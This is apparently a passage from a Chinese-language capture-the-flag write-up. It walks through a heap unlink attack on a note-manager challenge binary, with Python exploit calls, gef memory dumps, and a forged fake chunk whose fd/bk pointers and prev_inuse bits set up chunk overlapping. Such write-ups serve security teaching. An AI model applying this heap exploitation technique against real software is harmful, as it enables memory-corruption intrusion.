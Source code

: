#### unlink
接下来 进行 `unlink` 操作。
```python
new_note("A"*notelen)
new_note("B"*notelen)
new_note("C"*notelen)
```
首先 new 三个 chunk
```c
gef➤  x/16gx 0x14d6010-0x10
0x14d6000:	0x0000000000000000	0x0000000000001821
0x14d6010:	0x0000000000000100	0x0000000000000003
0x14d6020:	0x0000000000000001	0x0000000000000080
0x14d6030:	0x00000000014d7830	0x0000000000000001 => chunk 0 ptr 
0x14d6040:	0x0000000000000080	0x00000000014d78c0 => chunk 1 ptr
0x14d6050:	0x0000000000000001	0x0000000000000080
0x14d6060:	0x00000000014d7950	0x0000000000000000 => chunk 2 ptr
0x14d6070:	0x0000000000000000	0x00000000014d79e0 => 这是因为 ptr 没清空剩下的
```
在 `delete chunk 2, delete chunk 1，delete chunk 0 `
然后都并入 `top chunk 了`..
```c
gef➤   x/16gx 0x14d6010-0x10
0x14d6000:	0x0000000000000000	0x0000000000001821
0x14d6010:	0x0000000000000100	0x0000000000000000
0x14d6020:	0x0000000000000000	0x0000000000000000
0x14d6030:	0x00000000014d7830	0x0000000000000000 => chunk 0 ptr
0x14d6040:	0x0000000000000000	0x00000000014d78c0 => chunk 1 ptr
0x14d6050:	0x0000000000000000	0x0000000000000000
0x14d6060:	0x00000000014d7950	0x0000000000000000 => chunk 2 ptr
0x14d6070:	0x0000000000000000	0x00000000014d79e0 => chunk 3 ptr
```

前面泄露得到` chunk 0` 的 `ptr`,而 构造时应使 `fd = &p-0x18;bk = &p-0x10`
伪造 `fake chunk`,`malloc`  一个比较大的堆块，会覆盖原来 `chunk` 的地方，而原来 `chunk` 还可以进行 `free` 操作，因此可以利用 `unlink。大概` `chunk overlapping `
构造时要注意三个地方：`chunk 1 header` 中的 `pre_size`  以及 `Pre_inuse` 、`chunk 2` 中的 `pre_inuse` 要设为 0
```c
gef➤  x/32gx 0x14d7830-0x10
0x14d7820:	0x0000000000000000	0x0000000000000191 
0x14d7830:	0x0000000000000000	0x0000000000000081 => fake chunk header
0x14d7840:	0x00000000014d6018	0x00000000014d6020 => fake fd bk
0x14d7850:	0x4141414141414141	0x4141414141414141
0x14d7860:	0x4141414141414141	0x4141414141414141
0x14d7870:	0x4141414141414141	0x4141414141414141
0x14d7880:	0x4141414141414141	0x4141414141414141
0x14d7890:	0x4141414141414141	0x4141414141414141
0x14d78a0:	0x4141414141414141	0x4141414141414141
0x14d78b0:	0x0000000000000080	0x0000000000000090 => fake header chunk 1,fake chunk 0 size = 0x80,fake pre_inuse 
0x14d78c0:	0x4141414141414141	0x4141414141414141
0x14d78d0:	0x4141414141414141	0x4141414141414141
0x14d78e0:	0x4141414141414141	0x4141414141414141
0x14d78f0:	0x4141414141414141	0x4141414141414141
0x14d7900:	0x4141414141414141	0x4141414141414141
0x14d7910:	0x4141414141414141	0x4141414141414141
gef➤  
0x14d7920:	0x4141414141414141	0x4141414141414141
0x14d7930:	0x4141414141414141	0x4141414141414141
0x14d7940:	0x0000000000000000	0x0000000000000091 => fake header  fake pre_inuse = 1
0x14d7950:	0x0000000000000000	0x0000000000000000
0x14d7960:	0x0000000000000000	0x0000000000000000
0x14d7970:	0x0000000000000000	0x0000000000000000
0x14d7980:	0x0000000000000000	0x0000000000000000
0x14d7990:	0x0000000000000000	0x0000000000000000
```